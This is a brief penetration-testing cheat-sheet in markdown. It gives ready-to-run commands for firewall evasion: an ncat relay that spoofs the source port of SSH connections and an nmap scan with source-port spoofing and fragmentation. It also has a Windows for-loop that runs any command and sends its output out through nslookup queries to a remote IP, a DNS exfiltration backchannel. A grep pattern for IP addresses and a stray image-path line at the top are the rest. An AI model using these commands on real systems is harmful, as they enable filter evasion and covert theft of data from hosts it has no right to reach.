 # Tricks (TODO Think of some better title)

## Fake Source Port with SSH using NC
`/usr/bin/ncat -l 1234 --sh-exec "ncat <target> <targetport> -p 4444"` With this create a local listener on 1234 that redirects traffic to target from port 4444. We can now ssh to localhost:1234 and land on target from source port 4444.

## Bypass source port filtering on nmap:

`/usr/bin/nmap <rhost> -Pn --source-port=<lport> -f`

## Grep for Ips

`grep -E "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b"`

## Backchannel via nslookup

```bash cheat nslookup backchannel via nslookup
for /F "tokens=1,2,3,4,5,6,7,8,9,10" %b in ('<cmd>') do nslookup "~!%b--%c--%d--%e--%f--%g--%h--%i--%j--%k~~" <ip>
``` 


tags: #misc 
